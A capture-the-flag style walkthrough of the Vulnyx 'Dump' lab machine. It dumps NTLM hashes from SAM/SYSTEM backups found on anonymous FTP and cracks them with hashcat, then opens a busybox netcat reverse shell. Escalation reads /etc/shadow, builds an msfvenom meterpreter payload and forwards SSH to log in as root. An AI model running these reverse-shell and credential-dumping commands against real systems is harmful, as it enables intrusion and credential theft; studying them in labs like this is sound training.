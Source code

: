 
# Machine Info

Dump was an easy rated Linux machine on Vulnyx, Involves dumping user hashes from SAM file and cracking it those hashes using hashcat for initial access. For root access, user dumper have writes to read the `/etc/shadow` file, which leaks the root user password hash which leads to get access to root user on the box.

# User 
## Scanning through Nmap

First of all we will go with nmap to scan the whole network and check for services running on the network. To scan the whole network and find all the open ports i use **-p-** used to scan the whole **65535** ports with **--min-rate 10000** to scan network faster from **nmap** and i found a list of open ports on the network and get only the open ports using different terminal tools like **cut**, **tr** etc. 

```shell
$ nmap -p- --min-rate 10000 192.168.190.134 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
21,80, 4200
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p21,80,4200 -sC -sV -A -T4 192.168.190.134 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file

```bash
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      pyftpdlib 1.5.4
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.190.134:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup [NSE: writeable]
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
4200/tcp open  ssl/http ShellInABox
| ssl-cert: Subject: commonName=dump
| Not valid before: 2024-02-09T11:53:57
|_Not valid after:  2044-02-04T11:53:57
|_ssl-date: TLS randomness does not represent time
|_http-title: Shell In A Box
```

Through Nmap, we found three open ports, **21 FTP** with anonymous login allowed, port **80 HTTP** web and port **4200 ssl/HTTP** also web. Becasue we are allowed to login as anonymous user on FTP, lets dive into it and check if we found any useful file or folder their.

### 21 FTP

After login to FTP using anonymous credientials, we found a **.backup** directory. after looking into the **.backup** directory, we found two files **sam.bak** and **system.bak**. 
So what are **sam** and **system** files, **sam** file is a file in windows that holds the **usernames** and **NTLM** password hashes of local users on system. This is file is encrypted and it's key is stored in a registry file called **system**. You can learn more about it [here](https://juggernaut-sec.com/dumping-credentials-sam-file-hashes/)

<img  alt="Pasted image 20240415093027" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/44353a42-8d79-4d12-af4e-e1002c4abfea">

So in our case we have both system and sam file, lets try to dump the password hashes from it, we can use tool called secretsdump.py from impacket toolkit for that purpose
**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read NTDS.dit directly from the disk or it can use the parser module to read NTDS.dit files from a copy.
secretsdump.py dump **usernames** and their **password** hashes for us, if we were facing a windows machine, then we can perform **pass-the-hash** attack to gain access on the machine, without decrypting it. But, because we are on Linux machine, we have to decrypt it.

```bash
$ secretsdump.py -sam sam.bak -system system.bak LOCAL
```

- **-sam** to parse sam file
- **-system** to parse system file
- **LOCAL** because we parse these files locally

<img alt="Pasted image 20240415094024" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/7e50225e-4f01-474a-9f68-80f987dd230b">

```NTLM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
```

After saving these hashes let's fire up hashcat to perform dictionary attack to decrypt these hashes.
Hashcat is **a password cracking tool used for licit and illicit purposes**. Hashat is a particularly fast, efficient, and versatile hacking tool that assists brute-force attacks by conducting them with hash values of passwords that the tool is guessing or applying

```bash
$ hashcat -m 1000 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

- **-m** to specify module number of NTLM hash which is 1000 in our case

<img  alt="Pasted image 20240415095409" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/292758d4-c28c-4db8-9438-a3c219c2d6f0">

We were successfully able to crack the password of user **admin** and **dumper**

```passwords
dumper:7324322d85d3714068d67eccee442365:1dumper
admin:556a8f7773e850d4cf4d789d39ddaca0:blabla
```

### 80 HTTP

On port 80 their is a simple apache default page is runnig. feroxbuster also didn't found any useful path their.

<img  alt="Pasted image 20240415100300" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4959a089-4f9d-47ce-8e36-f7d7b1111be4">

### 4200 HTTPs

On TCP port 4200, there is a some kind of login page is working called dump login.

<img alt="Pasted image 20240415095754" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/9ea8608c-b05b-41c0-a7b6-5e2cbb996bf2">

I tried to login to it using admin credentials but admin credentials didn't worked their, then I tried to login using dumper credentials and it worked and we got a shell on the box as dumper user. Their is also our user flag is present.

<img  alt="Pasted image 20240415100118" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/20f35516-de07-4c82-abaa-1f1241f6d4b7">

Let's get shell on our box using **busybox** and make it stable.

```bash
$ busybox nc 192.168.190.129 9001 -e sh
$ nc -lvnp 9001
$ ptyhon3 -c "import pty; pty.spawn('/bin/bash')"
$ export TERM=xterm
```


# Privilege Escalation

Linpeas reveals that we have a read access to `/etc/shadow` file, a file that contains user's passwords hashes on Linux system. 

<img  alt="Pasted image 20240416102724" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f6cf35b5-0896-4e50-958a-fc6f29057a75">

Lets, copy root hash and try to break it using hashcat on our local machine.

```bash
$ hashcat -m 1800 root-hash rockyou.txt

# Cracked Hash
$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:shadow123
```

Linpease also discover that port **22 ssh** was running locally on the machine. I decided to forward it to my attacker machine. 

<img  alt="Pasted image 20240416103403" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/6b2026cc-6e0a-493d-a7ee-1ca975946436">

First, lets get a shell on **metasploit** and then perform port forwarding, there are also  many other ways to perform port forwarding but the metasploit one is more simple and easy.
To get a shell on metasploit, first create a elf file using **msfvenom** and then deliver it on victim machine using python3 server.

```bash
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.190.133 LPORT=4444 -f elf -o shel.elf

# Python server
$ python3 -m http.server 80
```

<img alt="Pasted image 20240415103604" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/a67df831-57e4-413c-a994-9ece495be28b">

After that run a listener on metasploit using

```bash
$ use exploit/multi/handler
$ set payload linux/x64/meterpreter_reverse_tcp
$ set LHOST=<attacker IP>
$ set LPORT=<that you specified in msfvenom payload>
$ run
```

Now whenever someone will run our **shel.elf** file, we will receive a shell back on our metasploit listener.

<img  alt="Pasted image 20240415104043" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/8bde988f-b67e-42e1-b0d7-c8fabebaed39">

Now Lets forward our port 22 to our attacker machine using:

```bash
$ portfwd -l 101 -p 22 -r 127.0.0.1
```

- **-l** for local port
- **-p** for remote port
- **-r** remote host

<img  alt="Pasted image 20240416104103" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4f3d40ad-0603-4c03-9883-4627d124bfe7">

Now let's get a shell as root using ssh and grab our root.txt.

```bash
$ ssh root@127.0.0.1 -p 101
```

<img  alt="Pasted image 20240416104235" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f26a30e0-d44f-4d6d-b80e-9ce33d001f57">


# Happy Hacking ❤
